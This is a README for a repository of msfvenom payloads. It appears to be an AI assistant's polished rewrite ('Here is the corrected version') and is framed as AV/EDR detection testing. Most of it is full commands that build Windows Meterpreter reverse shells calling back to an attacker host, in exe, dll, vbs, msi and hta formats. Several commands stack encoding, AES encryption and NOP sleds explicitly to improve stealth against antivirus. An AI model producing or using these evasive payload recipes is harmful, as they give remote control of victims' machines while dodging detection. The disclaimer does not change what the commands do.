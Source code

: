 Here is the corrected version of your README.md:

---

# Payload Generated with Msfvenom

This directory contains payloads generated using the `msfvenom` tool, which is widely utilized for creating and testing malicious payloads in controlled environments. The payloads included here serve as a baseline for analyzing antivirus (AV) and Endpoint Detection and Response (EDR) detection capabilities.

---

## File Details

### `Payload1.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload2.exe`
- **Description**: A reverse TCP payload encoded using Shikata Ga Nai, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai -f exe -o Payload2.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload3.exe`
- **Description**: A reverse TCP payload encrypted using AES256, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> --encrypt aes256 --encrypt-key secret -f exe -o Payload3.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload4.exe`
- **Description**: A reverse TCP payload with multiple evasion techniques (encoding, encryption, and optimization), designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f exe -o Payload4.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.dll`
- **Description**: A reverse TCP payload in DLL format, suitable for techniques such as DLL Hijacking or Reflective DLL Injection.
- **Architecture**: 64-bit Windows
- **Type**: Dynamic-Link Library (`.dll`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f dll -o Payload.dll
```

---

### `Payload.vbs`
- **Description**: A reverse TCP payload in Visual Basic Script format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Visual Basic Script (`.vbs`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f vbs -o Payload.vbs
```

---

### `Payload.msi`
- **Description**: A reverse TCP payload in MSI format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Installer Package (`.msi`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f msi -o Payload.msi
```

---

### `Payload.hta`
- **Description**: A reverse TCP payload in HTA format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: HTML Application (`.hta`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f hta-psh -o Payload.hta
```

---

## Detection Analysis

The payloads were uploaded to VirusTotal to evaluate detection rates across various antivirus engines. The results serve as a baseline to identify opportunities for improving stealth through encoding, obfuscation, and other evasion techniques.

---

## Legal Notice

- **For Educational and Research Purposes Only**: These payloads are strictly intended for testing in isolated environments, such as virtual machines or lab setups.
- **Prohibited Usage**: Unauthorized use or deployment on live systems or production environments is illegal and against organizational policies.
- **Responsibility Disclaimer**: The creator assumes no liability for misuse of the provided tools or files.
